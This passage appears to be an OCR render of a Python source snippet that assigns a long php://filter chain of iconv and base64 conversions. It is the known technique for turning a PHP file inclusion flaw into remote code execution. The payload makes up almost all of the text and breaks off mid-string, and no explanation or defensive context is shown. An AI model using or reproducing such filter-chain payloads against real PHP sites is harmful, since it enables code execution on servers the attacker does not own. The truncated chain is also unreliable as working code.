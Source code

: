 ```python
php_filter = "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.C
```